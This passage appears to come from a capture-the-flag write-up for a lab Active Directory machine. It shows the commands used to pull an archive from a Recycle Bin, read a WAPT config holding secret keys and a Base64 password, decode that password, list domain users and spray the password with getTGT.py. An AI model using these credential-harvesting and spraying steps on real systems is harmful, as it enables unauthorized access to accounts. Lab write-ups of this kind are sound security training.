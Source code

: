 ```console
10/24/2024  09:16 PM        30,416,987 $RE2XMEG.7z
```

Here we find two files. I downloaded them to my local machine and found that one of the contains the source code for WAPT that Fiona was talking about.

```console
$ KRB5CCNAME=f.frizzle.ccache scp 'f.frizzle@frizz.htb:C:\\$Recycle.Bin\\S-1-5-21-2386970044-1145388522-2932701813-1103\\$RE2XMEG.7z' R.7z

$ 7z x R.7z
$ cat wapt/conf/waptserver.ini

[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

The `waptserver.ini` contains a Base64 encoded password. We decode it and peform a password spray on the accounts.

```console
PS C:\Users\f.frizzle> get-aduser -filter * | ft -property name

name
----
Administrator
Guest
krbtgt
f.frizzle
w.li
h.arm
M.SchoolBus
d.hudson
k.franklin
l.awesome
t.wright
r.tennelli
J.perlstein
a.perlstein
p.terese
v.frizzle
g.frizzle
c.sandiego
c.ramon
m.ramon
w.Webservice

$ echo 'IXN1QmNpZ0BNZWhUZWQhUgo=' | base64 -d
!suBcig@MehTed!R

$ while read u; do getTGT.py frizz.htb/$u:'!suBcig@MehTed!R' | grep ticket; done < users.txt
[*] Saving ticket in M.SchoolBus.ccache
```